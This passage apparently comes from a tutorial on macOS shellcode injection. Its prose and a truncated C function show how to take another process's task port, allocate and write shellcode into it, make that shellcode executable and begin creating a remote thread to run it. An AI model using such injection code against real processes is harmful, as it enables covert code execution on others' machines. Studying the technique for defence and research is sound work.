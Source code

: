 With access granted, we proceed to allocate memory within the target process. We reserve space for both the remote stack and the shellcode using `mach_vm_allocate`. This ensures that we have a place to execute our code, Once memory is allocated, we write our shellcode into the allocated memory space of the target process using `mach_vm_write`. This effectively places our code where it needs to be executed.

```c
int inject_shellcode(pid_t pid, unsigned char *shellcode, size_t shellcode_size) {
    task_t remote_task;
    mach_vm_address_t remote_stack = 0;
    vm_region_t shellcode_region;
    mach_error_t kr;

    // Get the task port for the target process
    kr = task_for_pid(mach_task_self(), pid, &remote_task);
    if (kr != KERN_SUCCESS) {
        fprintf(stderr, "Failed to get the task port for the target process: %s\n", mach_error_string(kr));
        return -1;
    }

    // Allocate memory for the stack in the target process
    kr = mach_vm_allocate(remote_task, &remote_stack, STACK_SIZE, VM_FLAGS_ANYWHERE);
    if (kr != KERN_SUCCESS) {
        fprintf(stderr, "Failed to allocate memory for remote stack: %s\n", mach_error_string(kr));
        return -1;
    }

    // Allocate memory for the shellcode in the target process
    kr = mach_vm_allocate(remote_task, &shellcode_region.addr, shellcode_size, VM_FLAGS_ANYWHERE);
    if (kr != KERN_SUCCESS) {
        fprintf(stderr, "Failed to allocate memory for remote code: %s\n", mach_error_string(kr));
        return -1;
    }
    shellcode_region.size = shellcode_size;
    shellcode_region.prot = VM_PROT_READ | VM_PROT_EXECUTE;

    // Write the shellcode to the allocated memory in the target process
    kr = mach_vm_write(remote_task, shellcode_region.addr, (vm_offset_t)shellcode, shellcode_size);
    if (kr != KERN_SUCCESS) {
        fprintf(stderr, "Failed to write shellcode to remote process: %s\n", mach_error_string(kr));
        return -1;
    }

    // Adjust memory permissions for the shellcode
    kr = vm_protect(remote_task, shellcode_region.addr, shellcode_region.size, FALSE, shellcode_region.prot);
    if (kr != KERN_SUCCESS) {
        fprintf(stderr, "Failed to set memory permissions for remote code: %s\n", mach_error_string(kr));
        return -1;
    }

    // Create a remote thread to execute the shellcode
    x86_thread_state64_t thread_state;
    memset(&thread_state, 0, sizeof(thread_state));
    thread_state.__rip = (uint64_t)shellcode_region.addr;
    thread_state.__rsp = (uint64_t)(remote_stack + STACK_SIZE);

    thread_act_t remote_thread;
    kr = thread_create(remote_task, &remote_thread);
    if (kr != KERN_SUCCESS) {
        fprintf(stderr, "Failed to create remote thread: %s\n", mach_error_string(kr));
```